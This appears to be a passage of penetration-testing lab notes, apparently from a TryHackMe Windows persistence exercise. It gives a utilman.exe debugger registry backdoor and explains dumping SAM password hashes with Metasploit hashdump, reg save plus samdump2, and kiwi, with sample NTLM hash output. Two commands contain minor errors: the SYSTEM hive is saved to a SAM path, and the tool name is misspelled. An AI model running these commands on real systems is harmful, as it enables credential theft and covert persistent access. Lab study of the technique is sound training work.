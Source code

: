 `REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f`

# Hash Dumping

Hash dumping is the technique used by penetration testers to extract the password hashes off of the target system to either crack them or to try to do lateral movement.
The simplest way to do hash dumping is by using Metasploit's hashdump/kiwi module: `run post/windows/gather/hashdump`

The same result can be achieved by saving the SAM and SYSTEM registries, downloading the files and using samdump2.
Let's save first the registries on the target machine:

`reg save HKLM\SAM C:\Users\Administrator\Desktop\SAM
reg save HKLM\SYSTEM C:\Users\Administrator\Desktop\SAM`

With the registries saved download the files to the attacker machine and use samdump2 to recover the hashes.

```
(remote)download SAM
(remote)download SYSTEM
(local)sam2dump SYSTEM SAM
```

It seems some users do not appear, only their hashes. However, for that issue, you can query for users that are on the system.

You can dump credentials using kiwi, which is the equivalent of mimikatz. To do that you'll need to load the module: load kiwi.
The command used to dump the SAM database hashes is: `lsa_dump_sam`

1. load kiwi
2. getsystem
3. lsa_dump_sam

```
Domain : PERSISTENCE
SysKey : 31066436b67d1dfb03c9f249b9aed099
Local SID : S-1-5-21-3421978194-83625553-4099171136

SAMKey : d0bb192867888f2d94bc148c442c6c7c

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 52745740e9a05e6195731194f03865ea

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000003e8 (1000)
User : joe
  Hash NTLM: 878d8014606cda29677a44efa1353fc7

RID  : 000003e9 (1001)
User : chris
  Hash NTLM: e0b6050c7280bf4a7bee599cf374fd80

RID  : 000003ea (1002)
User : tryhackme
  Hash NTLM: 0c7ba4684821cd349e327896d9db4474
```

